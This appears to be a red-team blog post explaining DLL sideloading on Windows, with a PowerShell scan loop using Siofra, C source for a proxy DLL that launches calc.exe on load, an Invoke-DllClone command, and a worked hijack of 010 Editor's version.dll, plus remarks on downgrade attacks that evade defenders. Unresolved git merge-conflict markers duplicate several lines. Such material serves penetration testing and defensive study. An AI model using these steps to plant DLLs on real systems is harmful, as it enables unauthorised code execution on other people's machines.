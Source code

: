 Title: DLL-Sideloading Attack: A Fast How-To
Date: 2023-06-09 22:00
Category: Red
Tags: Koppeling, DLL, Sideload, Sideloading, Red-Team, Windows

## What is DLL-Sideloading

In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed.
Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.

DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.

## The Attack

If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.

## Tools

### siofra
There is a tool that is able to search for these kinds of vulnerabilities I like:
It is [siofra](https://github.com/Cybereason/siofra).

Consider the following powershell script from [here](https://twitter.com/ShitSecure/status/1566126264469098497/photo/1). For 32-bit exchange the Siofra.exe

```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
    mkdir C:\temp\hijacktest
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
```

<<<<<<< HEAD
Generally the output can be considered in two parts, the binary analysis shows which dlls might be attackable with an exlamation mark:
=======
Generally the output can be considered in two parts, the binary analysis shows which DLLs might be attackable with an exlamation mark:
>>>>>>> ffb806d5d60bcee6825dda9c7472b68de6a260cc

![picture 1](../images/49369742dbe0ea41b57696a371613a5574117beee51a7cf96318b04763785fb5.png)  

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion:
![picture 2](../images/38019f07c834ac302e5f4c84eba042d7d9a2836f8f507832967946b3a8177bda.png)  

<<<<<<< HEAD
Here you can see, which dll's one would have to place and where.
=======
Here you can see, which DLL's one would have to place and where.
>>>>>>> ffb806d5d60bcee6825dda9c7472b68de6a260cc
A nice next step would be to get which of the vulnerable marked locations are writeable to us.

### Koppeling

When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using [koppeling](https://github.com/monoxgas/Koppeling). 

Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.

<<<<<<< HEAD
I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some dll code like this:
=======
I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some DLL code like this:
>>>>>>> ffb806d5d60bcee6825dda9c7472b68de6a260cc

```c
#include <windows.h>
#include "pch.h"

DWORD WINAPI fireLazor(LPVOID lpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    HANDLE threadHandle;

    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
        CloseHandle(threadHandle);

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Example

I will attack 010 editor. As we saw before, its version.dll is vulnerable.

Compile the source code from above with Visual Studio as a DLL library and run

```powershell
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
```

Placing it in the same directory as 010 editor and running it will cause this:

<<<<<<< HEAD
![picture 3](../images/aed4d3a15b0f37c3c97b5f5b5ba5a23b950a4742a951ec51dae51ae7a9594800.png)  
=======
  
![picture 4](../images/751f81fedc6f887b1a11848c7b64673a878e2f0dcefdbbe7c000a117b6e71a12.png)  
>>>>>>> ffb806d5d60bcee6825dda9c7472b68de6a260cc


## Downgrading

Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.

With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).

A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.